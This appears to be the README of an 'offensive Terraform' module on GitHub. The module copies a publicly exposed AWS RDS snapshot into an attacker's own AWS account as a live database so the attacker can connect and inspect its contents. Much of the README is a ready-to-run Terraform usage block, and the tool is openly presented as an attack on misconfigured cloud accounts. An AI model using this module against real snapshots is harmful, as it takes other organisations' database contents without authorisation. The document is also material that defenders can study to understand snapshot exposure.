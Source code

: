 # AWS RDS Snapshot Publicly Exposed

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates RDS database from a publicly exposed RDS snapshot in attacker's AWS account. After that, attacker can connect to RDS database and inspect it.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-rds-snapshot-publicly-exposed/master/diagram.jpg)

Note: The provider region must be same as publicly exposed RDS snapshot's region. 

## Usage
```
provider "aws" {
  region = "us-east-1"
}

module "rds-snapshot-publicly-exposed" {
    source  = "offensive-terraform/rds-snapshot-publicly-exposed/aws"

    rds_snapshot_arn = "arn:aws:rds:region:0000000000:snapshot:name"
    rds_db_password  = "password"
}

output "rds_endpoint" {
  value = module.rds-snapshot-publicly-exposed.rds_endpoint
}

output "rds_port" {
  value = module.rds-snapshot-publicly-exposed.rds_port
}

output "rds_username" {
  value = module.rds-snapshot-publicly-exposed.rds_username
}
```

## Author
Module managed by https://github.com/iganbold
